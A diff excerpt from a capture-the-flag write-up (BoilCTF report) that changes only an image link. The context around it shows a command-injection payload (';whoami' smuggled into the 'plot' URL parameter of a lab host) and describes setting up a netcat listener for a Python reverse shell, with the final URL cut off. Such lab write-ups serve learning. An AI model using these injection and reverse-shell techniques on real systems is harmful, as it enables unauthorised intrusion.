

Before and after one commit to 0xt1m/ctf, a Markdown page: BoilCTF/report.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/BoilCTF/report.md
+++ b/BoilCTF/report.md
@@ -59,7 +59,7 @@ http://boilctf.thm/joomla/_test/index.php?plot=LINUX<br>
 But if we change it to:
 http://boilctf.thm/joomla/_test/index.php?plot=;whoami and click on the Select Host button<br>
 we get some additional result there, which is a response to our command:
-![whoami](./imgs/whoami)
+![whoami](./imgs/whoami.png)
 
 I set up an _nc_ listener on port *2222* and used a simple python reverse-shell which I found on the internet. Therefore, eventually my url looked like this:<br>
 ```
````
Also changed, not shown: other parts of BoilCTF/report.md (+1 -1 lines).
